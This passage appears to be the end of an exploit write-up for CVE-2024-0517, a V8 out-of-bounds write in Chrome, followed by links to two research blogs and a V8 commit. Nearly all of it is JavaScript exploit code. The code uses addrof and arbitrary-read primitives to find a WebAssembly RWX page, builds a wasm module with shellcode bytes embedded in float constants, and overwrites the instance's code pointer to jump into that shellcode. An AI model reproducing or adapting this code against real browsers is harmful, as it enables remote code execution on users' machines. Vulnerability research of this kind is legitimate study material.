 ```jsx

shell_func();

let shell_wasm_instance_addr = addrof(shell_wasm_instance);
let shell_wasm_rwx_addr = v8h_read64(shell_wasm_instance_addr + 0x48n);
let shell_func_code_addr = shell_wasm_rwx_addr + 0xB40n;
let shell_code_addr = shell_func_code_addr + 0x2Dn;
```

```jsx
const tbl = new WebAssembly.Table({
        initial: 2,
        element: "anyfunc"
});

const importObject = {
        imports: { imported_func : (n) => n + 1, },
        js: { tbl }
};

var wasmCode = new Uint8Array([
0,97,115,109,1,0,0,0,
1,15,3,96,1,124,1,124,96,2,124,124,0,96,0,1,125,
2,36,2,7,105,109,112,111,114,116,115,13,105,109,112,111,114,116,101,100,95,102,117,
110,99,0,0,
2,106,115,3,116,98,108,1,112,0,2,
3,3,2,1,0,
7,21,2,4,109,97,105,110,0,1,10,109,97,107,101,95,97,114,114,97,121,0,2,
10,31,2,22,0,68,144,144,144,144,72,137,16,195,68,204,204,204,204,204,204,
233,67,26,26,11,6,0,
32,0,16,0,11
]);

let wasmModule = new WebAssembly.Module(wasmCode);
let wasmInstance = new WebAssembly.Instance(wasmModule, importObject);

let wasmInstance_addr = addrof(wasmInstance);
let RWX_page_pointer = v8h_read64(wasmInstance_addr+0x48n);

let func_make_array = wasmInstance.exports.make_array;

let func_main = wasmInstance.exports.main;
wasm_write(wasmInstance_addr+0x48n, shell_code_addr);
func_main();
```

## Reference

[CW blog - CVE-2024-0517](https://cwresearchlab.co.kr/entry/CVE-2024-0517-Out-of-Bounds-Write-in-V8)

[Exodus blog - CVE-2024-0517](https://blog.exodusintel.com/2024/01/19/google-chrome-v8-cve-2024-0517-out-of-bounds-write-code-execution/)

[V8 git 12.0.267.15](https://chromium.googlesource.com/v8/v8.git/+/e73f620c2ef1230ddaa61551706225821a87c3b9)
